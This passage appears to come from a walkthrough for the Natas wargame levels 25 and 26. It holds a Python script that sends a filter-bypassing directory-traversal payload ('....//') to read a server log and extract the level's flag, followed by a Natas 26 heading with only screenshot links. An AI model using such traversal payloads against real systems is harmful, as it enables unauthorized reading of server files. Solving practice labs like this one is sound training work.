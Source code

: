 ```py

log_file = "....//....//....//....//....//var/www/natas/natas25/logs/natas25_%s.log"%session.cookies['PHPSESSID']
response = session.post(url,headers=headers,data={"lang": log_file },auth=(username,passsowrd))
content = response.text
flag = re.findall('] (.*)\n "Directory traversal attempt! fixing request."',content)[0]
print("[+] Gotcha ", flag)

```

---

### Natas 26

<img src="img/Pasted image 20240507185620.png" alt="Example Image" width="1080"/>
<br>
<img src="img/Pasted image 20240507185702.png" alt="Example Image" width="1080"/>
